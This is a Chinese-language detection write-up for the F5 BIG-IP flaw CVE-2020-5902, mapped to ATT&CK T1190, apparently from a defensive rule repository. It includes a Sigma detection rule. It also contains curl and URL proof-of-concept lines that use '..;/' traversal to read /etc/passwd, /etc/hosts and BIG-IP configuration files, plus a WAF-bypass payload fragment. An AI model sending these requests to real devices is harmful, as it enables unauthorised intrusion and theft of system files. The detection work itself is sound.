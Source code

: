 # T1190-CVE-2020-5902-F5_BIG-IP-远程代码执行

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

F5 BIG-IP 是美国F5公司一款集成流量管理、DNS、出入站规则、web应用防火墙、web网关、负载均衡等功能的应用交付平台。在 F5 BIG-IP 产品的流量管理用户页面 (TMUI)/配置实用程序的特定页面中存在一处远程代码执行漏洞。

未授权的远程攻击者通过向该页面发送特制的请求包，可以造成任意Java 代码执行。进而控制 F5 BIG-IP 的全部功能，包括但不限于: 执行任意系统命令、开启/禁用服务、创建/删除服务器端文件等。

漏洞影响范围：

11.6.x, 12.1.x, 13.1.x, 14.1.x, 15.0.x, 15.1.x

## 检测日志

HTTP.log

## 测试复现

漏洞利用建议参考：

F5 BIG-IP 远程代码执行漏洞（CVE-2020-5902） 漏洞利用

<https://blog.csdn.net/wuyou1995/article/details/107170186/>

cve-2020-5902 RCE的payload以及绕过方式

<https://www.cnblogs.com/potatsoSec/p/13263806.html>

## 测试留痕

暂无实测，故无留痕。直接引用漏洞利用建议参考中的案例数据进行特征提取。

### 文件读取POC

```yml
curl -v -k  'https://[F5 Host]/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd'

https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd

https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/hosts

https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.license

https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.conf
```

### 通过java反序列化绕过waf的payload

```yml
String dburl = "jdbc:hsqldb:https://" + server +
                               ":443/tmui/login.jsp/..%3b/hsqldb/"; #截取部分内容
```

## 检测规则/思路

### sigma规则

```yml
title: CVE-2020-5902 F5 BIG-IP 远程代码执行漏洞
status: experimental
references:
    - https://blog.csdn.net/wuyou1995/article/details/107170186/
    - https://www.cnblogs.com/potatsoSec/p/13263806.html
author: Florian Roth
translator: 12306Bro
date: 2020/07/05
logsource:
    category: webserver
detection:
    selection_base:
        c-uri|contains: 
            - '/tmui/'
            - '/hsqldb'
    selection_traversal:
        c-uri|contains:
            - '..;/'
            - '.jsp/..'
    condition: selection_base and selection_traversal
fields:
    - c-ip
    - c-dns
falsepositives:
    - Unknown
tags:
    - attack.initial_access
    - attack.t1190
level: critical
```

### 建议

建议使用HTTP流量+安全设备进行检测分析判断攻击是否成功。

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

F5 BIG-IP 远程代码执行漏洞（CVE-2020-5902） 漏洞利用

<https://blog.csdn.net/wuyou1995/article/details/107170186/>

cve-2020-5902 RCE的payload以及绕过方式

<https://www.cnblogs.com/potatsoSec/p/13263806.html>
